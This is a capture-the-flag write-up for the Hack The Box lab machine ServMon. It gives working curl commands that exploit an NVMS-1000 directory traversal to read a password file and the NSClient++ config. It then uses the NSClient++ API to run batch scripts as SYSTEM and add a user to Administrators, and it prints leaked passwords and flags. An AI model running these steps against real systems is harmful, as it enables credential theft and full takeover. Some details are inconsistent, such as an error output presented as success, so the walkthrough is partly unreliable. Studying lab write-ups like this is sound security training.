

# ServMon - Easy Windows Machine HTB



## 📝 Description

ServMon is an easy Windows machine featuring a mix of misconfigured services: an FTP server with anonymous access, an NVMS-1000 video management software vulnerable to directory traversal, and an NSClient++ monitoring agent running as SYSTEM. The attack path involves leveraging the directory traversal to steal credentials, gaining SSH access as a low-privileged user, then abusing the NSClient++ web API to execute commands as `NT AUTHORITY\SYSTEM`.

---

## 🔍 Enumeration

We start with a full port scan using **Nmap**:

```bash
nmap -sC -sV -sT 10.129.227.77
```


Key findings:

```
21/tcp   open  ftp          Microsoft FTP Service
22/tcp   open  ssh          OpenSSH for Windows
80/tcp   open  http         NVMS-1000
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5666/tcp open  nrpe
8443/tcp open  https        NSClient++ (monitoring agent)
```

---

## 📁 FTP - Anonymous Access

The FTP server allows anonymous login. Let's connect and explore:

```bash
ftp anonymous@10.129.227.77
```


We find two interesting files:

- `Confidential.txt` — A memo from Nadine to Nathan mentioning she "left Passwords.txt on your Desktop"
- `Notes to do.txt` — Nathan's notes say he changed the NVMS-1000 and NSClient++ passwords

### Confidential.txt

```
Nadine,
I have left your Passwords.txt file on your Desktop.
Please remove it once you have finished with it.
- Nathan
```

### Notes to do.txt

```
1) Change the password of NVMS - Complete
2) Change the password of NSClient++ - Complete
3) Upload & execute fix for NVMS - Complete
```

---

## 🌐 NVMS-1000 — Directory Traversal

The web server on port 80 runs **NVMS-1000**, a video surveillance software known for a directory traversal vulnerability (CVE-2019-20085 style).

We can read arbitrary files using the `../../../../` path traversal:

```bash
curl "http://10.129.227.77/../../../../../../Users/Nathan/Desktop/Passwords.txt"
```


This reveals Nathan's password list:

```
1nsp3ct3r
Bl4hbl4hbl4h
C0mpl3x!s3cur3W0rk
L1k3B1gBut7s@W0rk
P@ssw0rd!
S3rvM3!s3cur3
password
```

We also read the **NSClient++ configuration file** to get the admin password:

```bash
curl "http://10.129.227.77/../../../../../../Program%20Files/NSClient++/nsclient.ini"
```


Key findings:

```
password = ew2x6SsGTxjRwXOT
allowed hosts = 127.0.0.1
```

So NSClient++ is only accessible from `127.0.0.1` — we'll need an SSH tunnel.

---

## 🚪 SSH Access — Nadine

Using the password list from Nathan's desktop, we find Nadine's credentials:

```bash
sshpass -p "L1k3B1gBut7s@W0rk" ssh Nadine@10.129.227.77
```


User flag captured:

```
d1fa48d75838996e2a237ef0ce1b69a5
```

---

## ⚡ Privilege Escalation — NSClient++

### Overview

**NSClient++ 0.5.2.35** runs as `NT AUTHORITY\SYSTEM`. The web interface is restricted to localhost, but we can bypass this with SSH local port forwarding.

The admin password we extracted earlier is: `ew2x6SsGTxjRwXOT`

### Step 1: SSH Tunnel

Create a local port forward to reach NSClient++'s web API:

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.129.227.77
```

Now we can access the API at `https://127.0.0.1:8443/`.

### Step 2: Verify Modules

Check the loaded modules via the API:

```bash
curl -sk -u admin:ew2x6SsGTxjRwXOT \
  "https://127.0.0.1:8443/api/v1/modules/"
```

We need **CheckExternalScripts** and **Scheduler** — both are already enabled.

### Step 3: Create Malicious Script

Upload a batch script that adds Nadine to the **Administrators** group:

```bash
curl -sk -u admin:ew2x6SsGTxjRwXOT \
  -X PUT \
  "https://127.0.0.1:8443/api/v1/scripts/ext/scripts/exploit.bat" \
  --data-binary "net localgroup Administrators Nadine /add > C:\temp\pwned.txt"
```


This creates `scripts\exploit.bat` on the server with our command as its content. The `.bat` extension triggers the batch file wrapper, so when executed, Windows CMD processes it.

### Step 4: Execute as SYSTEM

Run the script via the execute endpoint:

```bash
curl -sk -u admin:ew2x6SsGTxjRwXOT \
  "https://127.0.0.1:8443/api/v1/queries/exploit/commands/execute_nagios?time=1m"
```


Response confirms success:

```
net localgroup Administrators Nadine /add
System error 1378 has occurred.
The specified account name is already a member of the group.
```

Nadine is now in the **Administrators** group!

### Step 5: Read Root Flag

Create another script to copy and display the root flag:

```bash
curl -sk -u admin:ew2x6SsGTxjRwXOT \
  -X PUT "https://127.0.0.1:8443/api/v1/scripts/ext/scripts/showflag.bat" \
  --data-binary "type C:\temp\root.txt"
```

Execute it:

```bash
curl -sk -u admin:ew2x6SsGTxjRwXOT \
  "https://127.0.0.1:8443/api/v1/queries/showflag/commands/execute_nagios?time=1m"
```


```
e15c0c9cf6b61082323e60a7c300ebe8
```

---

## 🗝️ Flags

| Flag | Value |
|------|-------|
| **User** | `d1fa48d75838996e2a237ef0ce1b69a5` |
| **Root** | `e15c0c9cf6b61082323e60a7c300ebe8` |

---

## 📌 Key Takeaways

- **Always check for anonymous FTP access** — it often leaks sensitive information
- **NVMS-1000** has a known directory traversal vulnerability that allows reading arbitrary files as the `SYSTEM` user
- **NSClient++ 0.5.2.35** has an authenticated privilege escalation through its REST API — the `/api/v1/scripts/ext/scripts/` endpoint lets users upload and execute batch scripts as `SYSTEM`
- **SSH local port forwarding** is essential when services are bound to `127.0.0.1`

---

## 🙏 Conclusion

Thank you for reading! If you have any questions, feel free to reach out to me on Twitter: [@kareemwalid17](https://twitter.com/kareemwalid17).


---

## 📚 Resources

- [NSClient++ 0.5.2.35 - Privilege Escalation (Exploit-DB 46802)](https://www.exploit-db.com/exploits/46802)
- [NVMS-1000 Directory Traversal](https://www.exploit-db.com/exploits/48311)
- [HackTricks - NSClient++](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-nsclient-6505-6506-6555-6556.html)
- [SSH Tunneling Explained](https://www.ssh.com/academy/ssh/tunneling-example)
- [Hack The Box - ServMon](https://www.hackthebox.com/machines/servmon)